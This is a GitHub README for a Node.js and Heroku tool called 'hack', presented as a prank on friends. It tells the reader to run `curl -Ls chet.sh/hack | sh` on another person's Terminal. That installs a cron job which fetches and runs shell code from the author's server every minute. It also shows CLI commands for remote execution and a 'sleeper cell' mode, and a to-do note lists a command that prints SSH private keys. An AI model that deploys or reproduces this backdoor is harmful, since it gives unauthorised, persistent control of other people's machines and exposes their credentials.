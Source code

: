 # Hack

## Getting Started

Clone, install, link:

```sh
git clone https://github.com/ccorcos/hack.git
cd hack
npm install
npm link
```

Setup Heroku:

```sh
brew install heroku-toolbelt
heroku login
heroku create hacker-chet
echo "ROOT_URL=$(heroku info -s | grep web-url | cut -d= -f2)" >> .env
```

Run locally:

```sh
npm start # alias for `heroku local web`
```

Deploy to Heroku:

```sh
npm run deploy # alias for `git push origin heroku`
```


- dump endpoint
- 420 command
- register with noip and add ssh accepted hosts
- ls ~/.ssh/* | xargs cat



- git push heroku master


- heroku ps:scale web=1
- heroku open


- heroku logs --tail


- heroku local web



- xo?


# To Do

- CLI should generate shell scripts with "HACK_URL" which will get injected by express based on the heroku config

-

xo and test


update without pushing / redeploying?

heroku config:set HEROKU_URL=$(heroku info -s | grep web-url | cut -d= -f2)


























Start hacking someone by running this command from their Terminal: `curl -Ls chet.sh/hack | sh`. That sets up a cron job every minute which pings `curl chet.sh/live | sh`.

Now go to your commandline and we can start having some fun.

```
hack live exec "say hello world"
hack live interval 1y # sleeper cell
hack live cron "20 16 * * * * say 'its foe 20, ye better be toke-in'"
hack live reset
hack live forget
hack live rename jon
hack jon ...
```

# FYI

http://www.nncron.ru/help/EN/working/cron-format.htm

```
* * * * *
| | | | |
| | | | |
| | | | +---- Day of the Week   (range: 1-7, 1 standing for Monday)
| | | +------ Month of the Year (range: 1-12)
| | +-------- Day of the Month  (range: 1-31)
| +---------- Hour              (range: 0-23)
+------------ Minute            (range: 0-59)
```

# PS

How to make a Node.js CLI app: http://blog.npmjs.org/post/118810260230/building-a-simple-command-line-tool-with-npm

# PPS

Bought the domain name `chet.sh` here: https://www.nic.sh/

# To Do

- demo
- better readme
- better help
- better command validation
- configure with custom domain name

# Getting Started

```sh
git clone ...
cd hack
npm install
npm link
```

On your buddy's computer, just need to run this:

```sh
curl -sL chet.sh/hack | sh
```
